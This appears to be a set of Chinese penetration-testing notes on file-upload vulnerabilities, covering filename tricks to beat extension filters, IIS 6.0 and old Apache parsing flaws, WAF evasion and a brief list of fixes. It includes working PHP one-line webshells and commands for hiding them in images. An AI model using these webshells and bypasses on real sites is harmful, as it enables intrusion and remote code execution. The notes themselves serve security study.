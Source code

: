 
	”1.php “、”1.php.“第一个，系统会强制把后面的空格去掉变成1.php，第二个，系统不允许这样命名，也会变成1.php。所以这两个可以尝试绕过代码的过滤。
	1.php::$DATA这样的命名方式。在Windows系统中，::$DATA是一种命名约定，用于指定文件流数据。这种命名方式会绕过一些简单的文件后缀名检测，因为上传文件的名称看起来仍然像是一个.php文件。但实际上，::$DATA部分被用于表示文件流数据。
	总的来说，这种技巧利用了Windows文件系统的特性和PHP的解析方式，绕过了一些基本的文件上传黑名单检测，使得攻击者可以上传并执行恶意PHP代码。
	
	抓包把文件名改成1.php/. 看似这成了文件夹的名字，实则还是会保存为1.php文件；这可绕过某些后缀名检测，1.php/.jpg 系统也会保存php文件而不是jpg，代码会以为后缀是.jpg，可绕过白名单检测

图片马制作
一句话木马：
<?php eval($_POST['cmd']); ?>//执行php代码
<?php exec($_POST['cmd']); ?>//执行命令


copy 1.png /b + shell.php /a webshell.jpg

copy: 这是一个用于复制文件的命令
/b: 这是 copy 命令的一个选项，表示以二进制模式进行复制。这个选项告诉 copy 命令不要将特殊字符解释为控制字符，而是直接复制它们。
/a: 这是 copy 命令的另一个选项，表示以文本模式进行复制。对于文本文件，这个选项告诉 copy 命令将文本文件作为 ASCII 文件处理。

Get-Content -Encoding Byte **6.png, gg.png** -ReadCount 0 | Set-Content -Encoding Byte **6gg.png**



iis6.0
文件夹
image/qq.jpg
image.asp/qq.jpg     qq.jpg就会被当做asp解析
文件
image.jpg
image.asp;.jpg或XXx.asp;xxx.jpg此文件会被当做asp执行
asp可以换做php如果换了php那么就当php执行

文件解析漏洞

apache-低版本

例：phpstudy(低版本、apache)
1.php.xxx会被当作php执行
解释:解析文件时识别后缀.xxx失败，则会向前解析，识别成.php 

上传参数名解析：明确哪些东西能修改？
Content-Disposition:一般可更改
name:表单参数值，不能更改
filename:文件名，可以更改
Content-Type:文件MIME,视情况更改

#常见绕过WAF方法：
数据溢出-防匹配(xxx...)
符号变异-防匹配(' ” ;)
数据截断-防匹配(%00；换行)  
在 URL 编码中，%00 表示 NULL 字符（ASCII 码为0）。NULL 字符通常用于表示字符串的结束，在某些情况下也可以用作字符串的分隔符。
重复数据-防匹配（参数多次）
本地fuzz大法测试 网上找fuzz字典

#文件上传安全修复方案
后端验证：采用服务端验证模式
后毁检测：基于黑名单，白名单过滤
MTME检测：基于上传自带类型检测
内容检测：文件头，完整性检测
自带函数过滤：参考upload1abs函数
自定义函数过滤：function check file（）{}
WA防护产品：宝塔，云盾，安全公司产品等
